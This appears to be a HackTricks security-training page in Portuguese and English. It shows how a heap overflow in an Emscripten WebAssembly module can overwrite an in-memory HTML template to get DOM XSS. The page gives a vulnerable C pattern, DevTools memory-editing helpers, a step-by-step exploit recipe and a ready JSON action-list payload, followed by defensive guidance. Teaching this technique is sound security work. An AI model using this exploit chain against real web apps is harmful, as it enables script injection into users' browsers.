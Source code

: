 # WebAssembly linear memory corruption to DOM XSS (template overwrite)

{{#include ../../banners/hacktricks-training.md}}

Esta técnica mostra como um bug de memory-corruption dentro de um módulo WebAssembly (WASM) compilado com Emscripten pode ser transformado em um DOM XSS confiável mesmo quando a entrada é sanitizada. O pivô é corromper constantes graváveis na WASM linear memory (por exemplo, templates de formatação HTML) em vez de atacar a string de origem sanitizada.

Ideia chave: No modelo WebAssembly, o código vive em páginas executáveis não-graváveis, mas os dados do módulo (heap/stack/globals/"constants") vivem em uma única linear memory plana (pages of 64KB) que é gravável pelo módulo. Se código C/C++ com bug escrever fora dos limites, você pode sobrescrever objetos adjacentes e até mesmo strings constantes embutidas na linear memory. Quando tal constante é usada mais tarde para construir HTML para inserção via um DOM sink, você pode transformar entrada sanitizada em JavaScript executável.

Threat model and preconditions
- Web app uses Emscripten glue (Module.cwrap) to call into a WASM module.
- Application state lives in WASM linear memory (e.g., C structs with pointers/lengths to user buffers).
- Input sanitizer encodes metacharacters before storage, but later rendering builds HTML using a format string stored in WASM linear memory.
- There is a linear-memory corruption primitive (e.g., heap overflow, UAF, or unchecked memcpy).

Minimal vulnerable data model (example)
```c
typedef struct msg {
char *msg_data;       // pointer to message bytes
size_t msg_data_len;  // length after sanitization
int msg_time;         // timestamp
int msg_status;       // flags
} msg;

typedef struct stuff {
msg *mess;            // dynamic array of msg
size_t size;          // used
size_t capacity;      // allocated
} stuff; // global chat state in linear memory
```
Padrão lógico vulnerável
- addMsg(): aloca um novo buffer com o tamanho da entrada sanitizada e anexa uma msg a s.mess, dobrando a capacidade com realloc quando necessário.
- editMsg(): re-sanitiza e memcpy’s os novos bytes para o buffer existente sem garantir que o novo comprimento ≤ a alocação anterior → intra‑linear‑memory heap overflow.
- populateMsgHTML(): formata o texto sanitizado com um stub embutido como "<article><p>%.*s</p></article>" que reside em linear memory. O HTML retornado é enviado para um DOM sink (por exemplo, innerHTML).

Allocator grooming with realloc()
```c
int add_msg_to_stuff(stuff *s, msg new_msg) {
if (s->size >= s->capacity) {
s->capacity *= 2;
s->mess = (msg *)realloc(s->mess, s->capacity * sizeof(msg));
if (s->mess == NULL) exit(1);
}
s->mess[s->size++] = new_msg;
return s->size - 1;
}
```
- Envie mensagens suficientes para exceder a capacidade inicial. Depois do crescimento, realloc() frequentemente coloca s->mess imediatamente após o último user buffer na linear memory.
- Transborde a última mensagem via editMsg() para corromper campos dentro de s->mess (e.g., overwrite msg_data pointers) → reescrita arbitrária de ponteiros dentro da linear memory para dados que serão renderizados depois.

Exploit pivot: sobrescrever o HTML template (sink) em vez da fonte sanitizada
- Sanitização protege a entrada, não os sinks. Encontre o format stub usado por populateMsgHTML(), por exemplo:
- "<article><p>%.*s</p></article>" → change to "<img src=1      onerror=%.*s>"
- Localize o stub de forma determinística escaneando a linear memory; é uma string de bytes simples dentro de Module.HEAPU8.
- Depois de sobrescrever o stub, o conteúdo da mensagem sanitizado torna-se o handler JavaScript para onerror, então adicionar uma nova mensagem com texto como alert(1337) gera <img src=1 onerror=alert(1337)> e executa imediatamente no DOM.

Chrome DevTools workflow (Emscripten glue)
- Interrompa no primeiro Module.cwrap call no JS glue e entre no call site wasm para capturar argumentos de ponteiro (offsets numéricos na linear memory).
- Utilize typed views como Module.HEAPU8 para ler/escrever a memória WASM a partir do console.
- Snippets auxiliares:
```javascript
function writeBytes(ptr, byteArray){
if(!Array.isArray(byteArray)) throw new Error("byteArray must be an array of numbers");
for(let i=0;i<byteArray.length;i++){
const byte = byteArray[i];
if(typeof byte!=="number"||byte<0||byte>255) throw new Error(`Invalid byte at index ${i}: ${byte}`);
HEAPU8[ptr+i]=byte;
}
}
function readBytes(ptr,len){ return Array.from(HEAPU8.subarray(ptr,ptr+len)); }
function readBytesAsChars(ptr,len){
const bytes=HEAPU8.subarray(ptr,ptr+len);
return Array.from(bytes).map(b=>(b>=32&&b<=126)?String.fromCharCode(b):'.').join('');
}
function searchWasmMemory(str){
const mem=Module.HEAPU8, pat=new TextEncoder().encode(str);
for(let i=0;i<mem.length-pat.length;i++){
let ok=true; for(let j=0;j<pat.length;j++){ if(mem[i+j]!==pat[j]){ ok=false; break; } }
if(ok) console.log(`Found "${str}" at memory address:`, i);
}
console.log(`"${str}" not found in memory`);
return -1;
}
const a = bytes => bytes.reduce((acc, b, i) => acc + (b << (8*i)), 0); // little-endian bytes -> int
```
Receita de exploração ponta a ponta
1) Groom: add N small messages to trigger realloc(). Ensure s->mess is adjacent to a user buffer.
2) Overflow: call editMsg() on the last message with a longer payload to overwrite an entry in s->mess, setting msg_data of message 0 to point at (stub_addr + 1). The +1 skips the leading '<' to keep tag alignment intact during the next edit.
3) Template rewrite: edit message 0 so its bytes overwrite the template with: "img src=1      onerror=%.*s ".
4) Trigger XSS: add a new message whose sanitized content is JavaScript, e.g., alert(1337). Rendering emits <img src=1 onerror=alert(1337)> and executes.

Exemplo de lista de ações para serializar e colocar em ?s= (Codifique em Base64 com btoa antes de usar)
```json
[
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"edit","msgId":10,"content":"aaaaaaaaaaaaaaaa.\u0000\u0001\u0000\u0050","time":1756885686080},
{"action":"edit","msgId":0,"content":"img src=1      onerror=%.*s ","time":1756885686080},
{"action":"add","content":"alert(1337)","time":1756840476392}
]
```
Por que este bypass funciona
- WASM impede a execução de código a partir da linear memory, mas dados constantes dentro da linear memory são graváveis se a lógica do programa for falha.
- O sanitizer protege apenas a string de origem; corrompendo o sink (o HTML template), a entrada sanitizada torna-se o JS handler value e é executada quando inserida no DOM.
- Adjacência dirigida por realloc() somada a memcpy sem verificação em fluxos de edição permite corrupção de ponteiros para redirecionar escritas a endereços escolhidos pelo atacante dentro da linear memory.

Generalização e outras superfícies de ataque
- Qualquer HTML template em memória, JSON skeleton ou padrão de URL embutido em linear memory pode ser alvo para alterar como dados sanitizados são interpretados downstream.
- Outras armadilhas comuns do WASM: out-of-bounds writes/reads na linear memory, UAF em objetos do heap, function-table misuse com índices de chamada indireta sem verificação, e incompatibilidades no glue JS↔WASM.

Orientações defensivas
- Em caminhos de edição, verifique new length ≤ capacity; redimensione buffers antes da cópia (realloc para new_len) ou use APIs com limite de tamanho (snprintf/strlcpy) e acompanhe a capacidade.
- Mantenha templates imutáveis fora da linear memory gravável ou verifique sua integridade antes do uso.
- Trate as fronteiras JS↔WASM como não confiáveis: valide ranges/comprimentos de ponteiros, fuzz as interfaces exportadas, e limite o crescimento da memória.
- Realize a sanitização no sink: evite construir HTML em WASM; prefira APIs seguras do DOM ao invés de templating no estilo innerHTML.
- Evite confiar em estado embutido na URL para fluxos privilegiados.

## References
- [Pwning WebAssembly: Bypassing XSS Filters in the WASM Sandbox](https://zoozoo-sec.github.io/blogs/PwningWasm-BreakingXssFilters/)
- [V8: Wasm Compilation Pipeline](https://v8.dev/docs/wasm-compilation-pipeline)
- [V8: Liftoff (baseline compiler)](https://v8.dev/blog/liftoff)
- [Debugging WebAssembly in Chrome DevTools (YouTube)](https://www.youtube.com/watch?v=BTLLPnW4t5s&t)
- [SSD: Intro to Chrome exploitation (WASM edition)](https://ssd-disclosure.com/an-introduction-to-chrome-exploitation-webassembly-edition/)

{{#include ../../banners/hacktricks-training.md}}
